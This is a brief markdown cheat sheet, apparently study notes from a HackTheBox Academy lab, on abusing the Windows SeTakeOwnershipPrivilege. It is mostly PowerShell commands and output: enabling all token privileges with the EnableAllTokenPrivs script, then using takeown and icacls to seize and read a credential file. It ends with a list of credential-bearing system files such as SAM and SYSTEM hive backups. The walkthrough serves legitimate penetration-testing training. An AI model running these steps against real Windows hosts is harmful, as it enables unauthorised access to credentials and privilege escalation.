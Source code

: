 # SeTakeOwnershipPrivilege

change some file ownership, and read it.

```powershell
PS C:\mane> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

## Enabling SeTakeOwnershipPrivilege via EnableAllTokenPrivs

https://github.com/fashionproof/EnableAllTokenPrivs/tree/master

```powershell
PS C:\mane> Import-Module .\Enable-Privilege.ps1
PS C:\mane> .\EnableAllTokenPrivs.ps1
PS C:\mane> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

## Abuse Target File

```
# Checking File Ownership
PS C:\mane> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

# Checking Folder Ownership
PS C:\mane> cmd /c dir /q 'C:\Department Shares\Private\IT'

# Taking Ownership of the File
PS C:\mane> takeown /f 'C:\Department Shares\Private\IT\cred.txt'

# Confirming Ownership Changed
PS C:\mane> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

# Modifying the File ACL
PS C:\mane> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

# Reading the File
cat 'C:\Department Shares\Private\IT\cred.txt'
```

## Some Interesting File on windows

```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

## Reference 

+ Hackthebox academy - Windows Privilege Escalation - SeTakeOwnershipPrivilege